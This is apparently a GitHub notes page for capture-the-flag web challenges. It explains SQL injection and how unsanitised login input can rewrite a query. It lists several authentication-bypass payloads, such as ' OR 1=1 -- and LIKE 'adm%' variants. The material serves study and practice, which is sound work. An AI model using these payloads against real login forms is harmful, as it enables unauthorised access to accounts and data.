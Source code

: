# Useful notes for Web challenges

- [PHP](php.md)
- [SQL Injection](#sql-injection)

## SQL Injection
SQL makes queries into a databse with statements like:
```sql
SELECT * FROM users WHERE username='chris' AND password='letmein';
```
This selects all entries from a database table where the username and password match those supplied.

If the user inputted data (the username and password entered in a login box, for example) is passed directly to this query, then what the user enters can manipulate the query.

The basic injection used for hacking the SQL is to enter `' OR 1=1; --` in the username box on the login screen and anything in the password, which would change the above select query to:
```sql
SELECT * FROM users WHERE username='' OR 1=1; -- ' AND password='letmein';
```
This injection first closes the single quote for the `username=''` part, then adds `OR 1=1` (`1=1` is always true in SQL) and then comments out the rest of the line using `--`, so the password has no effect. This updated query will return every row in the `users` table.

If the code checks that at least one row is returned, then this could give you entry to a site.

### Alternative injections to try
Some MySQL databases don't treat the `--` as a single line comment. Use:
```
' OR 1=1; #
```
Try without the semi-colon:
```
' OR 1=1 --
```
Quote the `1` digits:
```
' OR '1'='1' --
```
Use `LIKE` with the wildcard `%` to also match everything:
```
' OR username LIKE '%' --
```
Use `LIKE` with a specific username, which may give you elevated access, as the code may use a returned ID from the table to identify the logged in user:
```
' OR username LIKE 'admin' --
```
Or with a wildcard to get `admin`, `admins`, `administrator`, etc.:
```
' OR username LIKE 'adm%' --
```
